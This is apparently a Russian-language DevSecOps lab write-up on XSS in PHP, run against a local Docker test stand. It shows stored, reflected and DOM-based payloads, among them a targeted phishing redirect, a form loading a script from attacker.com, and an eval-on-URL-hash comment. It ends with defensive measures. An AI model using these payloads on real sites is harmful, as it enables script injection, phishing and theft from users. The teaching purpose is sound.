 ## Безопасная разработка в HTML/CSS и PHP

### I. Теоретическая часть.

В соответствии со статистикой [NST](https://nvd.nist.gov/vuln/search/statistics?form_type=Basic&results_type=statistics&query=php+xss&search_type=all&isCpeNameSearch=false) количество найденных уязвимостей XSS в приложениях, написанных на PHP составило:

в 2021 году - 378, или 1,88% от общего числа уязвимостей (20158)

в 2022 году - 367, или 1,46% от общего числа уязвимостей (25101)

Две новых уязвимости такого класса на 18 апреля 2023 года:

| Уязвимость                                                   | Дата публикации | Описание                                                     |
| ------------------------------------------------------------ | --------------- | ------------------------------------------------------------ |
| [CVE-2022-28353](https://nvd.nist.gov/vuln/detail/CVE-2022-28353) | 15.04.2023      | В плагине предупреждения о внешнем перенаправлении для [MyBB](https://mybb.com/) URL-адрес перенаправления (он же external.php?url=) уязвим для XSS. Служит для выдачи предупреждения перед переходом по внешним ссылкам |
| [CVE-2023-29847](https://nvd.nist.gov/vuln/detail/CVE-2023-29847) | 14.04.2023      | Было обнаружено, что AeroCMS v0.0.1 содержит множество уязвимостей для сохраненных межсайтовых сценариев (XSS) с помощью параметров comment_author и comment_content в /post.php . Эти уязвимости позволяют злоумышленникам выполнять произвольные веб-скрипты или HTML с помощью созданной полезной нагрузки. |



### II. Практическая часть.

Запустим тестовый стенд.

`docker pull ket9/otus-devsecops-xss:latest`
`docker run -d -p 8080:80 --name otus-05 -e tokentimetolive=6000 ket9/otus-devsecops-xss:latest`

#### Stored XSS

Вид атаки, когда результат достигается при открытии пользователем страницы, куда выводится информация, хранящаяся на сервере. Такой тип атаки не требует обязательной фишиноговой подготовки в отношении пользователей, так как вредоносный код доставляется на их машины при посещении зараженного сайта.

В исследуемом сервисе такой вариант атаки доступен через добавление комментария. Например, можно организовать вывод сообщения при каждом открытии страницы со списком комментариев, указав в качестве текста комментария при его добавлении текст:

`My first comment!<script>alert("Congratulations! You was hacked!")</script>`

Можно привести сервис в состояние отказа в обслуживании в части просмотра или добавления комментариев, или выполнить редирект на фишинговый сайт с таким-же дизайном:

`<script>window.location.href="https://google.com"</script>`

В этом случае при открытии страницы с комментариями автоматически будет происходить редирект на указанную ссылку.

Могут быть случаи, когда подобного рода атака должна совершаться в отношении только одного или нескольких пользователей, а другие о ней знать не должны.  Доработав скрипт, мы получим его срабатывание только при наличии в адресной строке параметра **attack** со значением **true**:

`<script>`
`const params = new URLSearchParams(window.location.search);
const attack= params.get("attack");
if(attack==="true") {
    window.location.href="https://google.com"
};
</script>`

Нужным пользователям может быть отправлена должным образом сформированная ссылка фишинговым письмом, а остальные про наличие такой проблемы даже не узнают:

`http://localhost:8080/XSS-1/index.php?attack=true`

#### Reflected XSS

Вид атаки, когда результат достигается после ввода пользователем вредоносного кода. Другое название - неперсистентный XSS, так как вредоносный код не хранится на сервере. Вариант использования такой атаки - фишинговое письмо со ссылкой, содержащей вредоносный код:

`get.php?search=<script>alert("XSS ATTACK!")></script>;`

или через POST-запрос, например, в заранее подготовленной форме:

`form name=TheForm action=http://myapp.com/page.php method=post>`
   `<input type=hidden name=foo value="<script src=http://attacker.com/bad.js></script>;"/>`
`</form>`

В исследуемом приложении такой вид атаки недоступен.

#### DOM-based XSS

Межсайтовые скрипты на основе DOM – это уязвимость, которая появляется в объектной модели документа, а не на HTML-страницах. В этом случае выполняется манипулирование компонентами объектной модели документа, без отправки вредоносного кода на сервер, что существенно усложняет обнаружение такой уязвимости.

Так как в чистом виде этот тип атаки в приложении недоступен, попробуем продемонстрировать его, используя дополнительно Stored XSS.

С помощью простого скрипта и правильно сформированных ссылок мы можем выполнять произвольный код на атакуемой машине:

Добавляем комментарий:

`<script>var l = location.hash.slice(1);eval(l);</script>`

Формируем ссылку:

`http://localhost:8080/XSS-1/#alert('Surprise!')`

И получаем результат:

![surprise](./images/surprise.png)

Особенностью DOM-based атак является то, что они выполняются исключительно на стороне клиента. Это достигается за счет использования символа **#** в ссылке, так как все что находится после него отрезается и на сервер не передается, но доступно в JavaScript на клиенте. То есть в нашем случае для выполнения любоых операций, на которые способен JavaScript, нам достаточно только 1 зараженного комментария.

#### Blind XSS

Подвид Stored XSS, только ориентирован на отложенное срабатывание, и вообще не обязательно в этом приложении. Зачастую используется для атаки на административные панели сервисов.

#### Self XSS

Вид атаки, когда пользователь самостоятельно запускает вредоносный код, например в консоли браузера. 

#### mXSS (mutation-based XSS)

Относительно новый и достаточно опасный вектор атак. Заключается в том, что безопасный с точки зрения HTML-санитайзеров пользовательского ввода скрипт, после его обработки превращается во вредоносный. 

Примеры атаки с использованием этого метода для [Firefox](https://portswigger-labs.net/mxss/?input=%3Cmath%3E%3Cmtext%3E%3Ctable%3E%3Cmglyph%3E%3Cstyle%3E%3C![CDATA[%3C/style%3E%3Cimg%20title=%22]]%26gt;%26lt;/mglyph%26gt;%26lt;img%26Tab;src=1%26Tab;onerror=alert(1)%26gt;%22%3E) и [Chrome-based](https://portswigger-labs.net/mxss/?input=%3Cmath%3E%3Cmtext%3E%3Ctable%3E%3Cmglyph%3E%3Cstyle%3E%3C!--%3C/style%3E%3Cimg%20title=%22--%26gt;%26lt;img%20src=1%20onerror=alert(1)%26gt;%22%3E) браузеров.



### Основные технические способы противодействия XSS-атакам.

Экранирование входных и выходных данных, по возможности избегая самописных решений - лучше использовать или штатные средства языка, или популярные проверенные библиотеки (например, для PHP это Reform или HTML Purifier), отсекая HTML-теги и другие потенциально опасные данные.

Валидация пользовательского ввода.

Использование HTML-санитайзеров.

Установка для cookies, содержащих чуствительные данные флага **httpOnly** - тогда они не будут доступны для чтения через JavaScript.

Явно указывать кодировку страницы, чтобы избежать проблем с экранированием символов **<** и **>**, если они указаны в кодировке **UTF-7** (тогда они имеют вид **+ADw-** и **+AD4-** и скорее всего будут пропущены при валидации или экранировании, а с ними и весь вредоносный скрипт).

Использовать заголовок **Content Security Policy**. Это заголовок, который позволяет в явном виде объявить «белый список» источников, с которых можно подгружать различные данные, например, JS, CSS, изображения и пр. Даже если злоумышленнику удастся внедрить скрипт в веб-страницу, он не выполниться, если не будет соответствовать разрешенному списку источников (при условии внедрения через **script src=...**)

Регулярный анализ новых обнаруженных уязвимостей и обновление зависимостей проекта на версии, в которых обнаруженные уязвимости устранены.
